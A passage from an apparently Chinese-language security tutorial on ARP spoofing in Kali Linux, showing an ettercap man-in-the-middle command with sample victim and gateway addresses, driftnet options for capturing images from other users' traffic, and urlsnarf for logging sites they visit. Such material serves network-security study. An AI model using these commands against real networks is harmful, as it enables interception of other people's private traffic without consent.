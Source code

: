 
**ettercap**



ettercap是Kali下一款用于ARP欺骗的工具，可以图形化操作也可以命令行



```
ettercap -G   #图形化操作      
ettercap -i eth0 -Tq  -M  arp:remote  //192.168.10.10//  //192.168.10.254//   #命令行操作，两个ip地址可以互换
```




**bettercap**



bettercap是ettercap的继承者，功能强大。传送门——>[Bettercap2.X版本的使用](https://blog.csdn.net/qq_36119192/article/details/84582109)



**driftnet** 



driftnet是kali下能抓取流经网卡的图片和链接。和ARP欺骗工具进行结合，可以探测局域网内其他用户流量中的图片



```
driftnet  -b  -i  eth0  查看图片      
-b  捕获到新的图片时发出嘟嘟声      
-i  interface     选择监听接口      
-f  file   读取一个指定pcap数据包中的图片      
-p  不让所监听的接口使用混杂模式      
-a  后台模式：将捕获的图片保存到目录中（不会显示在屏幕上）      
-m number 指定保存图片数的数目      
-d directory  指定保存图片的路径      
-x prefix  指定保存图片的前缀名
```




**urlsnarf** 



urlsnarf是kali下能抓取流经指定网卡80端口、8080端口或3128的数据，也就是流经的http协议，和arp欺骗工具结合可以探测局域网内其他用户浏览过的网站



```
urlsnarf -i eth0
```




![](https://img-blog.csdnimg.cn/20181130183640268.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### ARP欺骗的危害
